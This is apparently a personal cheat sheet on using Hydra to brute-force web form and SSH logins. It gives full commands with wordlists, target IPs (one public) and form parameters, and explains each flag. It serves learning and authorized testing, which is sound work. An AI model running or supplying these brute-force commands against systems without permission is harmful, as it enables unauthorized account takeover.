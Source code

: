 
# FUZZING USING HYDRA

(ref_article)[https://infinitelogins.com/2020/02/22/how-to-brute-force-websites-using-hydra/]
(ref_vid)[https://www.youtube.com/watch?v=YrMNih3Z-4Y] 

> INTRO

- it is brute force online password cracking program
- used on SSH, Web Application Form, FTP or SNMP
- it can brute force Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP,  HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC and XMPP.
- (ref)[https://en.kali.tools/?p=220] to kali tool page for hydra
- (git repo)[https://github.com/vanhauser-thc/thc-hydra]

>command

### fuzzing a web form login

`sudo hydra -l cool.hacker.8 -P /folder/utils/rockyou.txt 142.93.209.130 http-post-form "/forums-login:username=cool.hacker.8&password=^PASS^&csrfmiddlewaretoken=qcMXh1SE1z6lfLtTLt3SZ9UfpzVgcevyjXH4JyJEqCKuZrzCJAV5FS4rLPzFo18r:Access to 142.93.209.130 was denied"`

- sudo hydra *identifier* $USERNAMElist *identifier* $PASSWORDlist ip type "/location of the form:username=^USER^&password=^PASS^:failure identifier"

<br> // <br>

`hydra -l <username> -P <wordlist> 10.10.115.211 http-form-post "/:username=^USER^&password=^PASS^:F=incorrect" -V`

- the -V is for the verbrose 

### bruteforcing ssh

`hydra -l <username> -P <full path to pass> 10.10.115.211 -t 4 ssh`

- `-t` identifies the number of threads and the 4 is the number identifier 


> description 

- the username identifier can be `-l` to give single username or `-L` to provide a wordlist for usernames
- the ip is the ip we are connecting (without the port)
- type is the post or get method used `http-post-form` here
- the location of the form is the directory its is located in (found in the dns)
- after the first : is the request being send (can be found in the network tab of the inspect element, in mozilla edit and resend scroll to bottom)
- the lst : is for faiure detection 
